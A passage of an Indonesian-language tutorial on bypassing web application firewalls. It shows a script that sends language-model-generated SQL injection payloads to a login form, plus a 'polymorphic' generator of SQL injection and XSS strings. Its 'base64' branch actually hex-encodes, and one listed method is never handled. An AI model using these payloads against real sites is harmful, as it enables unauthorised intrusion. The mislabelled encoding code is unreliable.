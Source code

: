 
## 🛡️ Kesimpulan  
Di **Part 6**, kita membahas **masa depan WAF dengan AI, Blockchain, dan Zero Trust Model**.  
WAF harus terus **beradaptasi dengan ancaman baru** untuk menghadapi era post-kuantum. 🚀  

**Next:** 📖 *"Offensive AI & Hyper-Evasive Attacks"*  

# Kamus Besar Bypass WAF - Part 7

## 🤖 Offensive AI: Menggunakan AI untuk Menemukan Celah di WAF

Seiring dengan perkembangan **AI dalam keamanan siber**, serangan berbasis **Offensive AI** kini digunakan untuk **mempelajari, meniru, dan mengeksploitasi pola deteksi WAF**.

---

## 🛡️ 1. AI-Powered WAF Fingerprinting

Teknik ini menggunakan **AI untuk mendeteksi aturan WAF sebelum eksploitasi**.  

**Contoh AI untuk Mendeteksi Weakness WAF:**  
```python
import requests
from transformers import pipeline

target_url = "https://target.com/login"
payload_generator = pipeline("text-generation", model="EleutherAI/gpt-neo-2.7B")

# Generate dynamic attack payload
payload = payload_generator("Generate a SQL Injection payload that bypasses WAF:", max_length=50)
response = requests.post(target_url, data={"username": "admin", "password": payload})

print(f"Generated Payload: {payload}")
print(f"Response Status: {response.status_code}")
```

---

## 🦠 2. Hyper-Evasive Malware & Polymorphic Attacks

Polymorphic attacks memungkinkan **payload berubah setiap kali dieksekusi**, sehingga sulit dideteksi oleh WAF.

**Contoh Payload Polymorphic dalam Python:**  
```python
import random

payloads = ["' OR '1'='1", "' UNION SELECT NULL, NULL--", "<script>alert(1)</script>"]
mutations = ["base64", "hex", "url_encode"]

def mutate_payload(payload, method):
    if method == "base64":
        return payload.encode("utf-8").hex()
    elif method == "url_encode":
        return payload.replace(" ", "%20").replace("'", "%27")
    return payload

for _ in range(5):
    selected_payload = random.choice(payloads)
    selected_method = random.choice(mutations)
    print(f"Generated Polymorphic Payload: {mutate_payload(selected_payload, selected_method)}")
```

---